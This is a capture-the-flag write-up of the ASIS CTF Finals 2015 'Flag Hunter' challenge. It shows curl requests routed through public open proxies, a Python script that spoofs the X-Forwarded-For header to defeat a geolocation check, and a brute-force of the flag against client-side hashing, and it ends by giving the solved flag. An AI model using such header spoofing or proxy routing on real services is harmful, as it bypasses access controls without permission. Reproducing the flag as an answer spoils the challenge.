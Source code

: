 ```yaml
---
title: "ASIS CTF Finals 2015 - Flag Hunter (Misc)"
header:
  overlay_image: /assets/images/asisfinals2015/flaghunter/header.png
  overlay_filter: 0.5
tags:
  - asisfinals2015
  - writeup
  - misc
---
```


Use of the `X-Forwarded-For` header allows an attacker to fake country of origin
to collect flags.

## Challenge Description

#### Points

75

#### Solves

53

#### Description

```
Be a hunter and find the flag.
```

## Solution

The link is at: http://flaghunt.asis-ctf.ir/. So we're given a map that lets you
click on different countries.

![1]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/flaghunter/1.png){: .align-center}

If you click on a country that is not your own, you get a failure message.

![2]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/flaghunter/2.png){: .align-center}

Well, Singapore's not on the map, so let's make the request manually.

```javascript
code = "SG"

var data = {
    "code": code
};
data = $(this).serialize() + "&" + $.param(data);
$.ajax({
    type: "POST",
    dataType: "html",
    url: "a.php", //Relative or absolute path to response.php file
    data: data,
    success: function(data) {
        alert(data);
    }
});
console.log(code);
```

![3]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/flaghunter/3.png){: .align-center}

We get some hex digits. Now, if we try a proxy in the United States, and we
click on the US in the map, we get a different bunch of hex digits.

![4]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/flaghunter/4.png){: .align-center}

Hmmm, well, we can do this from the command line to make this faster. So let's
grab some IPs off the web and use curl.

```shell
$ curl --data "&code=SG" -x 210.51.48.206:3128 http://flaghunt.asis-ctf.ir/a.php
c99801
```

However, some proxies don't work.

```shell
$ curl --data "&code=KA" -x 213.157.39.202:3130
http://flaghunt.asis-ctf.ir/a.php
We do not answer to long distance calls
```

Let's find out why.

```shell
$ curl --data "&code=KA" -x 213.157.39.202:3130 http://codesinverse.com:1337
... and in another window ...
$ nc -l -p 1337
POST / HTTP/1.1
User-Agent: curl/7.35.0
Host: codesinverse.com:1337
Accept: */*
Content-Length: 8
Content-Type: application/x-www-form-urlencoded
X-Proxy-ID: 1119486735
X-Forwarded-For: 101.127.41.144
Via: 1.1 213.157.39.202 (Mikrotik HttpProxy)

&code=KA
```

Looks like there's an `X-Forwarded-For` header that's pointing to my Singaporean
IP. Sooo, we could spoof IP addresses by using the `X-Forwarded-For` header! Now,
we can obtain a list of IP blocks by geographic location and make requests to
collect all possible hex digit codes. So, I grabbed this database:
http://dev.maxmind.com/geoip/geoip2/geolite2/ and wrote the following script to
parse the .csv files and make the requests.

```python
import requests

def process_location(l):
    tokens = l.split(",")
    return (tokens[0], tokens[4], tokens[5])

def process_lips(data):
    lines = data.strip().split("\n")
    lips = {}
    for i in lines:
        tokens = i.split(",")
        if tokens[1] in lips.keys():
            lips[tokens[1]].append(tokens[0])
        else:
            lips[tokens[1]] = [tokens[0]]
    return lips

def make_request(cc, ip):
    payload = {'code': cc}
    forward = {'X-Forwarded-For': ip}
    r = requests.post("http://flaghunt.asis-ctf.ir/a.php", data=payload,
            headers=forward)
    return r.text

def main():
    # Make database of locations
    loc = file("./GeoLite2-Country-CSV_20151006"
    "/GeoLite2-Country-Locations-en.csv").read()
    locs = [process_location(i) for i in loc.split("\n")[1:-1]]

    # Make database of locationip/address mapping
    lic = file("./GeoLite2-Country-CSV_20151006"
    "/GeoLite2-Country-Blocks-IPv4.csv").read()
    lics = process_lips(lic)

    codes = []
    # Let's process the countries
    for i in locs:
        ip = lics[i[0]][0]
        ip = ip.split("/")[0]
        code = i[1]
        hunt = make_request(code, ip)
        codes = (i, hunt)
        print "Found: ", i, hunt

    print codes

if __name__ == "__main__":
    main()
```

Running the code:

```shell
$ python flaghunt.py
Found:  ('49518', 'RW', 'Rwanda') c99801
Found:  ('51537', 'SO', 'Somalia') 926c51
Found:  ('69543', 'YE', 'Yemen') f55101
Found:  ('99237', 'IQ', 'Iraq') f55101
Found:  ('102358', 'SA', '"Saudi Arabia"') fc
Found:  ('130758', 'IR', 'Iran') c99801
Found:  ('146669', 'CY', 'Cyprus') 926c51
Found:  ('149590', 'TZ', 'Tanzania') fc
Found:  ('163843', 'SY', 'Syria') 926c51
Found:  ('174982', 'AM', 'Armenia') 926c51
Found:  ('192950', 'KE', 'Kenya') fc
Found:  ('203312', 'CD', 'Congo') f55101
Found:  ('223816', 'DJ', 'Djibouti') f55101
Found:  ('226074', 'UG', 'Uganda') bf853b
Found:  ('239880', 'CF', '"Central African Republic"') c99801
Found:  ('241170', 'SC', 'Seychelles') bf853b
Found:  ('248816', 'JO', '"Hashemite Kingdom of Jordan"') f55101
Found:  ('272103', 'LB', 'Lebanon') fc
Found:  ('285570', 'KW', 'Kuwait') bf853b
Found:  ('286963', 'OM', 'Oman') 353c45
Found:  ('289688', 'QA', 'Qatar') We do not answer to long distance calls
Found:  ('290291', 'BH', 'Bahrain') c99801
Found:  ('290557', 'AE', '"United Arab Emirates"') bf853b
```

If you look closely, there are six possible answers: bf853b, c99801, 353c45,
926c51, f55101, fc. This just so happens to be perfectly fitting for an MD5
hash. So this could be our flag. Assuming fc is our last block, that's 120
permutations. Too many to enter manually on the scoreboard. So let's metagame a
bit and look at the scoreboard.

If we look at how the flag is validated, it isn't immediately submitted as a
request to the scoreboard. There is some client side validation of the flag.

![5]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/flaghunter/5.png){: .align-center}
![6]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/flaghunter/6.png){: .align-center}

So, before the flag is submitted, it is `sha256(sha256(flag_candidate))` and
checked against a hidden `id_check` value. We can use this to discern which
permutation is correct! (Note the `id_check` is different since I can't get the
previous value as the solved challenge doesn't have the field) The following
script does that:

```python
import itertools
import hashlib

f = []
for i in itertools.permutations("bf853b c99801 353c45 926c51 f55101".split()):
        f.append("ASIS{ %sfc}" % "".join(i))

hashed = "3f87d0f31342fb9f7f96e35e8752536ebf3680441b5018c419c8ee3c1e1077db"
for i in f:
    if hashlib.sha256(hashlib.sha256(i).hexdigest()).hexdigest() == hashed:
        print i
```

Running the script:

```shell
$ python find_perm.py
ASIS{926c51bf853b353c45f55101c99801fc}
```

Flag: **ASIS{926c51bf853b353c45f55101c99801fc}**



